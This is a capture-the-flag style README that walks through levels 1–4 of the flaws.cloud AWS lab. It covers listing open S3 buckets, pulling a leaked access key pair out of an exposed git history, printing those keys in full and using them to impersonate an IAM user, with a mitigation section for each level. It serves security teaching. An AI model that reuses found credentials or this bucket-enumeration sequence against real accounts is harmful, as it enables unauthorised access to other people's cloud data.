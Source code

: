 # AWS S3 Security Challenges

## Abstract
*Amazon Simple Storage Service* (Amazon `S3`) is a highly scalable and versatile cloud storage service offered by Amazon Web Services (`AWS`).  
It allows organizations to store and retrieve vast amounts of data, making it an integral component of modern cloud computing infrastructures.  
*Security* is of paramount importance when it comes to S3, as it stores critical data for businesses and individuals alike.  
S3 security measures are crucial to protect sensitive information from unauthorized access, data breaches, and accidental exposure.  
AWS offers a range of security features, such as access control lists, bucket policies, and encryption, to ensure that data stored  
in S3 remains confidential, integrity is maintained, and accessibility is well-controlled.  
Establishing robust S3 security practices is essential for safeguarding valuable digital assets in the cloud.  

<br/>

In this repository, we will explore a series of challenges related to S3 by leveraging [flaws.cloud](http://flaws.cloud).  

## Prerequisites
- [aws cli](https://aws.amazon.com/cli/)
- [aws account](https://aws.amazon.com/free/?trk=94cafeff-9d62-4c32-8799-45290b4f160b&sc_channel=ps&ef_id=EAIaIQobChMIrtnukMWxggMVVIVoCR1cRgT0EAAYASAAEgJfl_D_BwE:G:s&s_kwcid=AL!4422!3!566381912849!p!!g!!account%20aws!15451025651!135687769812&all-free-tier.sort-by=item.additionalFields.SortRank&all-free-tier.sort-order=asc&awsf.Free%20Tier%20Types=*all&awsf.Free%20Tier%20Categories=*all) (you can leverage a free trial account)  


## Challenges  
> **Note**
> To add depth and realism to the scenario, we will structure our challenge by assuming that flaws.cloud is a web service  
> for which a customer has requested a black box **Vulnerability Assessment & Penetration Testing (VAPT)**.  
> In this approach, we will have no prior information beyond the target domain, making the engagement more challenging and realistic.  


> **Note**
> All challenges are dependent on one another so procede in order.  

<details>
<summary>CHALLENGE 1</summary>

L'ets begin.  
As we are aware, the only information available to us is that the service is exposed at the URL http://flaws.cloud:  

<img src="images/flaws-website.png" alt="flaws.cloud" width="3000" height="290">  


The initial step we can take is to perform a DNS lookup to gather additional information:  
```console
nslookup flaws.cloud

Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
Name:	flaws.cloud
Address: 52.218.251.58
Name:	flaws.cloud
Address: 52.92.164.35
Name:	flaws.cloud
Address: 52.218.183.19
Name:	flaws.cloud
Address: 52.92.229.67
Name:	flaws.cloud
Address: 52.218.179.83
Name:	flaws.cloud
Address: 52.92.148.203
Name:	flaws.cloud
Address: 52.92.250.3
Name:	flaws.cloud
Address: 52.92.177.187
```  
The reason why the `nslookup` command returns multiple IP addresses for a domain is because many websites  
and services are hosted on multiple servers for redundancy and load balancing.  
This means that the same domain name (in this case, "flaws.cloud") can resolve to multiple IP addresses.  

The purpose of this approach is to ensure high availability and better distribution of traffic.  
Let's take a random IP address from the list and try to execute a DNS lookup on that:  
```console
nslookup 52.92.148.203

Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
203.148.92.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.
```  

This is an interesting information.  
`name = s3-website-us-west-2.amazonaws.com`: This line provides the result of the reverse DNS lookup.  
It reveals that the IP address `52.92.148.203` is associated with the domain name `s3-website-us-west-2.amazonaws.com`.  
This means that if you were to access the URL associated with this IP address, it would likely lead you to an Amazon Web Services (AWS) `S3`  
website hosted in the US West (Oregon) region.  
The same DNS lookup result applies to every other IP addresses taken from the above output.  


> **Note**
> All S3 buckets, when configured for web hosting, are given an AWS domain you can use to browse to it without setting up your own DNS.  
> In this case, flaws.cloud can also be visited by going to http://flaws.cloud.s3-website-us-west-2.amazonaws.com/  

Let's do a recap of what we know so far:  
We know that we have a bucket named `flaws.cloud` in `us-west-2`  
<br/>

Given that, we can attempt to browse the bucket by using the aws cli by running:  
```console
aws s3 ls s3://flaws.cloud

2017-03-14 04:00:38       2575 hint1.html
2017-03-03 05:05:17       1707 hint2.html
2017-03-03 05:05:11       1101 hint3.html
2020-05-22 20:16:45       3162 index.html
2018-07-10 18:47:16      15979 logo.png
2017-02-27 02:59:28         46 robots.txt
2017-02-27 02:59:30       1051 secret-dd02c7c.html
```  
Very good, we are able to list this bucket contents!  
Feel free to take a look at all the files in the bucket...  
the most interesting one seems to be `secret-dd02c7c.html`, let's inspect this:  
```html
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html -

<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000;
            border-width: 1px; border-style: solid;}
        </style>
    </head>
<body
  text="#00d000"
  bgcolor="#000000"
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">

<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 2 is at <a href="http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud">http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud</a>%
```  

The content of the file displays the link to the next challenge. Well done!  

**Security Mitigations**:  
We need to explain to our customer that on AWS you can set up S3 buckets with all sorts of permissions and functionality including using them to host static files.  
A number of people accidentally open them up with permissions that are too loose.  
By default, S3 buckets are private and secure when they are created.  
To allow it to be accessed as a web page, you have to turn on `Static Website Hosting` and changed the aws  
bucket policy to allow everyone `s3:GetObject` privileges, which is fine if you plan to publicly host the bucket as a web page.  
But then you can introduce the flaw if you change the permissions to add `Everyone` to have `List` permissions.

> **Warning**
> "Everyone" means everyone on the Internet!



</details>

<br/>

<details>
<summary>CHALLENGE 2</summary>

Now we can procede with the second challenge.  

> **Note**
> This challenge is similar to the first one but you will need an aws accout.  


We know that the link to the new bucket is http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud.  
Once you have your aws cli configured with keys from your aws account, let's try to list all the files in the bucket:  
```console
aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud

2017-02-27 03:02:15      80751 everyone.png
2017-03-03 04:47:17       1433 hint1.html
2017-02-27 03:04:39       1035 hint2.html
2017-02-27 03:02:14       2786 index.html
2017-02-27 03:02:14         26 robots.txt
2017-02-27 03:02:15       1051 secret-e4443fc.html
```  

Once again we notice that there is a *secret* html file, let's cat is content:  

aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html -  
```html
<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000;
            border-width: 1px; border-style: solid;}
        </style>
    </head>
<body
  text="#00d000"
  bgcolor="#000000"
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">

<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 3 is at <a href="http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud">http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud</a>%
```   

The content of the file displays the link to the next challenge. Well done!  

**Security Mitigations**:  
We need to explain to our customer that similar to opening permissions to `Everyone` in the previous bucket/challenge, people accidentally open permissions to `Any Authenticated AWS User`.  

> **Warning**
> They might mistakenly think this will only be users of their account, when in fact it means anyone that has an AWS account!



</details>

<br/>

<details>
<summary>CHALLENGE 3</summary>

Now we can procede with the third challenge.  
We know that the link to the new bucket is http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud.  
Once you have your aws cli configured with keys from your aws account, let's try to list all the files in the bucket:  
```console
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud  

                           PRE .git/
2017-02-27 01:14:33     123637 authenticated_users.png
2017-02-27 01:14:34       1552 hint1.html
2017-02-27 01:14:34       1426 hint2.html
2017-02-27 01:14:35       1247 hint3.html
2017-02-27 01:14:33       1035 hint4.html
2020-05-22 20:21:10       1861 index.html
2017-02-27 01:14:33         26 robots.txt
```  
This time we notice something different: there is a `.git` folder!  
A `.git` folder within a directory typically indicates that the directory is a Git repository.  
`Git` is a distributed version control system commonly used for tracking changes in source code and managing collaborative software development projects.  
The `.git` folder contains all the information and data necessary for Git to manage version control for the files and directories within that repository.  
It includes information about commits, branches, history, configuration settings, and more.  
There are probably interesting things in this folder...let's download the full bucket content with the following command:  
```console
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --region us-west-2

download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/HEAD to .git/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/description to .git/description
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/config to .git/config
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/COMMIT_EDITMSG to .git/COMMIT_EDITMSG
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/applypatch-msg.sample to .git/hooks/applypatch-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-applypatch.sample to .git/hooks/pre-applypatch.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/post-update.sample to .git/hooks/post-update.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/commit-msg.sample to .git/hooks/commit-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-commit.sample to .git/hooks/pre-commit.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-rebase.sample to .git/hooks/pre-rebase.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/prepare-commit-msg.sample to .git/hooks/prepare-commit-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/update.sample to .git/hooks/update.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/2f/c08f72c2135bb3af7af5803abb77b3e240b6df to .git/objects/2f/c08f72c2135bb3af7af5803abb77b3e240b6df
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/index to .git/index
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/info/exclude to .git/info/exclude
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/0e/aa50ae75709eb4d25f07195dc74c7f3dca3e25 to .git/objects/0e/aa50ae75709eb4d25f07195dc74c7f3dca3e25
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/61/a5ff2913c522d4cf4397f2500201ce5a8e097b to .git/objects/61/a5ff2913c522d4cf4397f2500201ce5a8e097b
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 to .git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/HEAD to .git/logs/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/refs/heads/master to .git/logs/refs/heads/master
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/53/23d77d2d914c89b220be9291439e3da9dada3c to .git/objects/53/23d77d2d914c89b220be9291439e3da9dada3c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/db/932236a95ebf8c8a7226432cf1880e4b4017f2 to .git/objects/db/932236a95ebf8c8a7226432cf1880e4b4017f2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/92/d5a82ef553aae51d7a2f86ea0a5b1617fafa0c to .git/objects/92/d5a82ef553aae51d7a2f86ea0a5b1617fafa0c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61 to .git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint2.html to ./hint2.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint1.html to ./hint1.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint3.html to ./hint3.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/c2/aab7e03933a858d1765090928dca4013fe2526 to .git/objects/c2/aab7e03933a858d1765090928dca4013fe2526
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/index.html to ./index.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/robots.txt to ./robots.txt
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/76/e4934c9de40e36f09b4e5538236551529f723c to .git/objects/76/e4934c9de40e36f09b4e5538236551529f723c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint4.html to ./hint4.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/refs/heads/master to .git/refs/heads/master
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2 to .git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f2/a144957997f15729d4491f251c3615d508b16a to .git/objects/f2/a144957997f15729d4491f251c3615d508b16a
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/authenticated_users.png to ./authenticated_users.png
```  
Now we are inside the git folder and we can inspect git logs:  
```console
git log

commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```  
The log shows 2 commit and one have a suspicious message associated with it: `Oops, accidentally added something I shouldn't have`.  
Let's checkout the commit before that and take a look around at that point in the git history:  
```console
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61 && ls

M	index.html
Note: switching to 'f52ec03b227ea6094b04e43f475fb0126edb5a61'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at f52ec03 first commit

access_keys.txt         authenticated_users.png hint1.html              hint2.html              hint3.html              hint4.html              index.html              robots.txt
```  

Interesting...there is an `access_keys.txt` file in the repository!  
Let's inspect that:  
```console
cat access_keys.txt

access_key AKIAJ366LIPB4IJKT7SA
secret_access_key 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
```  
It's a good day to be a pentester, we found a set of aws [keys](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html)!  

let's use them to see if we can do something!  
```console
export AWS_ACCESS_KEY_ID=AKIAJ366LIPB4IJKT7SA
export AWS_SECRET_ACCESS_KEY=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
aws sts get-caller-identity

{
    "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
    "Account": "975426262029",
    "Arn": "arn:aws:iam::975426262029:user/backup"
}

```  

The output of the above command shows that we are now impersonating the `arn:aws:iam::975426262029:user/backup` [IAM](https://aws.amazon.com/iam/?trk=e7f9b09d-7bd6-4855-9dba-72c6bc2af630&sc_channel=ps&ef_id=EAIaIQobChMI6M_L-dKxggMVblBBAh1FEw9aEAAYASAAEgL2Z_D_BwE:G:s&s_kwcid=AL!4422!3!651510173475!e!!g!!amazon%20iam!19828210056!146491523705) identity.  
This is a user from the customer's aws account!  
Let's check the user attached policies:  
```console

aws iam list-attached-user-policies --user-name backup

An error occurred (AccessDenied) when calling the ListAttachedUserPolicies operation: User: arn:aws:iam::975426262029:user/backup is not authorized to perform: iam:ListAttachedUserPolicies on resource: user backup because no identity-based policy allows the iam:ListAttachedUserPolicies action
```  
We are not lucky this time but maybe with can list more bucket with the current identity:  
```console
aws s3 ls

2020-06-25 19:43:56 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2020-06-27 01:06:07 config-bucket-975426262029
2020-06-27 12:46:15 flaws-logs
2020-06-27 12:46:15 flaws.cloud
2020-06-27 17:27:14 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2020-06-27 17:27:14 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2020-06-27 17:27:14 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2020-06-27 17:27:15 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2020-06-27 17:27:15 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2020-06-28 04:29:47 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```  
Yes! We can list buckets that we couldn't before!  
Now we know where `level4` is located.  

**Security Mitigations**:  
We need to explain to our customer that People often leak AWS keys and then try to cover up their mistakes without revoking the keys.  
You should always revoke any AWS keys (or any secrets) that could have been leaked or were misplaced.  
Roll your secrets early and often and [use roles instead of keys whenever possible](https://docs.aws.amazon.com/IAM/latest/UserGuide/best-practices.html).  

> **Warning**
> If sensitive information or secrets are accidentally leaked and committed to a Git repository, simply removing them in a new commit is not sufficient.  
> These secrets can still exist in the repository's history, and they may be accessible to anyone with access to that repository.  
> If you accidentally committed a secret, consider rewriting your Git history to remove any traces of it.  
> Tools like git-filter-branch and git-rebase can help, but use them with caution as they can be complex and have implications on collaboration.  



</details>

<br/>

<details>
<summary>CHALLENGE 4</summary>

Now we can procede with challenge 4.  
We know that the link to the new bucket is http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud.  

> **Note**
> For the next level, you need to get access to the web page running on an EC2 at 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud  
> It'll be useful to know that a snapshot was made of that EC2 shortly after nginx was setup on it.  
> Also you need the aws keys retrieved in the previous challenge.  

If we open a browser to `4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud` we are presented with a login page:  
<img src="images/challenge4-login-page.png" alt="flaws.cloud" width="3000" height="290">  

We need to retrieve the right credentials in order to sign-in.  
The challenge tip informs us that we are dealing with a backup of an [EC2](https://aws.amazon.com/ec2/) instance, and if we recall from the previous challenge, the username was indeed `backup`.  
Let's see if we can list the backups/snapshots of the EC2 instance using the AWS CLI:  
```console
 aws  ec2 describe-snapshots --owner-ids 975426262029

{
    "Snapshots": []
}
```  

Mmmm it seems that, as of 07/11/2023, there are no snapshots.  
Maybe we can describe instances?  
```console
aws ec2 describe-instances

{
    "Reservations": []
}
```  
No luck either 😞  
Maybe the maker of flaws.cloud deleted them...no much else we can do here.  
Our customer can sleep peaceful dreams... for now.  




</details>

<br/>


